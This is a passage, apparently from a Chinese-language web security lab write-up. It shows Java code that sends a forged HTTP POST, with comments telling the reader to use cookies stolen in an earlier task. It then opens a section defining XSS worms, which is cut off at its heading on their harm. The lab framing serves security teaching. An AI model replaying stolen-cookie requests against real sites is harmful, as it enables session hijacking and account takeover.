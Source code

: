 ```
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data = "name=...&guid=..";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK)
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    } 
    } 
```

### lab5 XSS 蠕虫

#### xss 蠕虫 cross site scripting worm

XSS 蠕虫是一种跨站脚本病毒， 通常由脚本语言 Javascript 写成， 它借由网站访问者传播。由于 XSS 蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染。

#### XSS 蠕虫的危害
